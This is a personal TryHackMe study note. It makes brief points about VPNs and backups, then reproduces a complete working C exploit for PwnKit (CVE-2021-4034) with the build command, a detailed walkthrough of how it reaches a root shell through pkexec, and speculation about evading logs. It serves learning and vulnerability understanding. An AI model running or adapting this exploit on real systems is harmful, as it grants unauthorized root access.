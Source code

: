 # TryHackMe: Common Attacks & Pwnkit

* **author**:: Nathan Acks
* **date**:: 2022-02-03

## Common Attacks

### Public Network Safety

I really do wish that guides like this would stop highlighting VPNs — their utility is just really unclear for most people anymore!

### Backups

"3, 2, 1" is a good mnemonic for backups:

* THREE or more copies
* TWO or more different storage devices
* ONE or more offsite backups

Though honestly, this is kind of a "minimum viable backup" strategy, since simply using a cloud service to mirror data between two devices would qualify! (Why? Working data counts as a copy…)

## Pwnkit (CVE-2021-4034)

### Exploitation

Quick-n-dirty Pwnkit exploit:

```c
/*
 * Proof of Concept for PwnKit: Local Privilege Escalation Vulnerability Discovered in polkit's pkexec (CVE-2021-4034) by Andris Raugulis <moo@arthepsy.eu>
 * Advisory: https://blog.qualys.com/vulnerabilities-threat-research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-discovered-in-polkits-pkexec-cve-2021-4034
 */
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

char *shell = 
	"#include <stdio.h>
"
	"#include <stdlib.h>
"
	"#include <unistd.h>

"
	"void gconv() {}
"
	"void gconv_init() {
"
	"	setuid(0); setgid(0);
"
	"	seteuid(0); setegid(0);
"
	"	system(\"export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin; rm -rf 'GCONV_PATH=.' 'pwnkit'; /bin/sh\");
"
	"	exit(0);
"
	"}";

int main(int argc, char *argv[]) {
	FILE *fp;
	system("mkdir -p 'GCONV_PATH=.'; touch 'GCONV_PATH=./pwnkit'; chmod a+x 'GCONV_PATH=./pwnkit'");
	system("mkdir -p pwnkit; echo 'module UTF-8// PWNKIT// pwnkit 2' > pwnkit/gconv-modules");
	fp = fopen("pwnkit/pwnkit.c", "w");
	fprintf(fp, "%s", shell);
	fclose(fp);
	system("gcc pwnkit/pwnkit.c -o pwnkit/pwnkit.so -shared -fPIC");
	char *env[] = { "pwnkit", "PATH=GCONV_PATH=.", "CHARSET=PWNKIT", "SHELL=pwnkit", NULL };
	execve("/usr/bin/pkexec", (char*[]){NULL}, env);
}
```

The exploit is then as simple as `gcc $FILE -o exploit; ./exploit`. 

Here's what basically happens on execution:

* The exploit creates the path `GCONV_PATH=.` in the current directory and adds an invalid executable file to it.
* The exploit creates a second directory called `pwnkit` and sets up a malicious shared library designed to be loaded by GLib to translate system messages to the made-up character set "PWNKIT".
* The exploit calls `pkexec` with a NULL argument list (this bit is important, since we need the length of the argument list to be 0 — so, not even to contain the name of `pkexec` itself) *but* with a correctly set up (albeit malicious) environment via `execve()`. Importantly, the first "variable" in the environment is actually the name of the (invalid) executable in the `GCONV_PATH=.` directory.
* Polkit just falls through the loop that it would normally use to walk through the passed-in arguments. This causes what would be pointing to an executable name to instead point to the first environment variable that's passed into `execve()`, which happens to be string `pwnkit`.
* Polkit looks up the malicious executable, finds it in `GCONV_PATH=./pwnkit` (because we set the PATH to that directory), and then tries to replace the executable name with this full path. *Except* that it's still writing to the first element of the environment, which causes `pwnkit` to be replaced by `GCONV_PATH=./pwnkit`.
* Polkit the proceeds to sanitize its environment. When it comes to the invalid SHELL variable this sanitization fails and Polkit throws an error and dies. *But!* Before dying, Polkit tries to *print* the error using a GLib function that dutifully attempts to translate the message into the "PWNKIT" character set. To figure out how to do this, modules are loaded from GCONV_PATH… And we've defined a malicious module to do this that cleans up the exploit files and spawns a root shell (since `pkexec` is SUID root).

This version of the exploit cleans up after itself, but does depend on generating a log message. The Qualsys advisory describing Pwnkit notes that "this vulnerability is also exploitable without leaving any traces in the logs, but this is left as an exercise for the interested reader." My guess is that to do this you'd need to reintroduce a different environment variable that `ld.so` normally strips when calling SUID binaries. (At least, I don't immediately see any place where Polkit is printing something that *isn't* a warning before it nukes its own environment, but then I'm not super-familiar with C and am only quickly skimming the `pkexec` source code.) *Or* perhaps you can do something with the permissions of the `GCONV_PATH=./pwnkit` file to trigger an error that would not be logged. (The trick here would be to do something so that `g_find_program_in_path()` resolves `GCONV_PATH=./pwnkit` but `access()` returns an error; it's not obvious to me how to do this though, or even if it *can* be done!)

It took me a while to figure out why this exploit doesn't occur when `pkexec` is called without any arguments, since it will still fall through the initial argument-parsing loop. The reason this doesn't happen is that `argv[1]` is NULL in this case (the last element of `argv` is always the NULL pointer), so the first string of the environment isn't wrongly loaded *and* and entirely separate code path is triggered before the `GCONV_PATH=./pwnkit` variable would have gotten written into the environment. (It's worth noting that Debian derivatives seem to have removed the `sudo -s` like functionality from `pkexec` entirely, and just display a help message in this case.)

* [arthepsy / CVE-2021-4034](https://github.com/arthepsy/CVE-2021-4034)
* [pwnkit: Local Privilege Escalation in polkit's pkexec (CVE-2021-4034)](https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt)
* [polkit / src / programs / pkexec.c (commit 539bf5dc)](https://gitlab.freedesktop.org/polkit/polkit/-/blob/539bf5dcca489534f42798a4500aca4b1a8ec8d0/src/programs/pkexec.c)
